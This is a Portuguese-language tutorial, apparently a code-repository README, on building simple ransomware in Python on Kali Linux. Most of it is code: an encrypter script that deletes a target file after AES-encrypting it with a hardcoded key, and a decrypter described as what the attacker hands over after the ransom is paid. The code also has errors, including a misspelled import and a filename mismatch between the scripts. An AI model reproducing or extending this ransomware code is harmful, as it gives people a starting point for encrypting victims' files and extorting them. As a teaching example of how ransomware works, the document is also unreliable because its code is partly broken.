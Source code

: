 # Criando um Ransomware com python

### Ferramentas

- Kali Linux
- vim

### Configuração Ransoware

No terminal do kali linux crie um arquivo que servira de exemplo para o ataque: vim dados_teste.txt
Dentro do aquivo dados_teste.txt adicione um dado como: "Dados importantes da minha empresa." 
Agora crie um comando em python para encriptografar o arquivo dados_teste.txt: vim encrypter.py
Alimente com esses dados:

import os         # para importar o sestema operacional
importe pyaes     # para importar biblioteca pythom
## abrir o arquivo a ser criptografado
file_name = 'dados_teste.txt'
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b'testeransomwares'
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + '.ransomwarattack'
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

Agora fazer um arquivo para desincreptar, que o atacante forneceria para quem sofreu o ataque mediante a pagamento do resgate: vim decrypter.py

import os        # para importar o sestema operacional
import pyaes     # para importar biblioteca pythom

## abrir o arquivo criptografado
file_name = 'teste.txt.ransomwarattack'
file = open(file_name, 'rb')
file_data = file.read()
file.close()

## chave para descriptografia
key = b'testeransomwares'
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = 'dados_teste.txt'
new_file = open(f'{new_file}', 'wb')
new_file.write(decrypt_data)
new_file.close()

no terminal para cryptografar os dados_test.txt utilize o camando: python encrypter.py
agora abra o arquivo dados_teste.txt.ransowaratack para ver os dados encryptografados: vim  dados_teste.txt.ransowaratack
e agora para desincryptografar e deixar os dados original e legivel novamente utilize o comando: python decrypter.py
e assim terminamos o ataque de Ransoware.

